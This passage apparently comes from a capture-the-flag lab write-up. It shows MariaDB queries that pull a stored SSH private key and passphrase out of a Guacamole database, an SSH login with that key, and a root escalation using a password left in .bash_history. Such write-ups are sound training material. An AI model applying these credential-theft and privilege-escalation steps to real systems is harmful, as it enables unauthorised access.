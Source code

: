 ```
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> use guac_db
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [guac_db]> show tables;
+---------------------------------------+
| Tables_in_guac_db                     |
+---------------------------------------+
| guacamole_connection                  |
| guacamole_connection_attribute        |
| guacamole_connection_group            |
| guacamole_connection_group_attribute  |
| guacamole_connection_group_permission |
| guacamole_connection_history          |
| guacamole_connection_parameter        |
| guacamole_connection_permission       |
| guacamole_entity                      |
| guacamole_sharing_profile             |
| guacamole_sharing_profile_attribute   |
| guacamole_sharing_profile_parameter   |
| guacamole_sharing_profile_permission  |
| guacamole_system_permission           |
| guacamole_user                        |
| guacamole_user_attribute              |
| guacamole_user_group                  |
| guacamole_user_group_attribute        |
| guacamole_user_group_member           |
| guacamole_user_group_permission       |
| guacamole_user_history                |
| guacamole_user_password_history       |
| guacamole_user_permission             |
+---------------------------------------+
23 rows in set (0.001 sec)

MariaDB [guac_db]> select * from guacamole_connection_parameter;
...
```

This last query will show a stored SSH private key that Guacamole uses to connect to a machine. It also shows the passphrase for the private key since guacamole needs to know it as well. (Un-)Fortunately nothing is encrypted here. We copy the SSH key and connect as maki_adm:

```
ssh -i maki_adm.key maki_adm@barrier.vl -oHostKeyAlgorithms=+ssh-rsa
Enter passphrase for key 'maki_adm.key':
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-127-generic x86_64)

...

Last login: Mon Dec 23 17:46:06 2024 from 127.0.0.1
maki_adm@barrier:~$
```

We find that the `.bash_history` of this user contains the password of `maki_admin` from an earlier type - this allows to run `sudo -i` and become root!